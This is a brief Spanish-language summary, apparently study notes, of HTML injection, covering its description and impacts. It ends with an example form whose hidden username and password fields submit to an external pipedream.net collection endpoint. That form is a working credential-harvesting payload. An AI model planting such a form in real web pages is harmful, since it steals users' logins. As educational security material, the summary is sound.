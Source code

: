 - --
### 🌐 Resumen de la Vulnerabilidad: HTML Injection

#### 📝 Descripción
Esta vulnerabilidad permite inyectar código HTML malicioso en una página web, aprovechando la falta de filtrado o sanitización en campos de entrada o parámetros.

#### 🚩 Impacto
- **Robo de credenciales**: Al modificar el código HTML para enviar los datos a un servidor controlado por el atacante (como el mostrado en la imagen).
- **Phishing**: Crear formularios falsos que recopilen información de los usuarios.
- **Modificación de la interfaz**: Manipulación de elementos visibles para engañar al usuario.

#### 💡 Ejemplo de Explotación
El código HTML mostrado en la imagen se puede insertar en una página vulnerable para capturar credenciales:
```html
<form action="https://eo2iwcccmp2l4wb.m.pipedream.net" method="GET">
    <input type="text" name="username" hidden>
    <input type="password" name="password" hidden>
    <button type="submit">Click me</button>
</form>
```

---
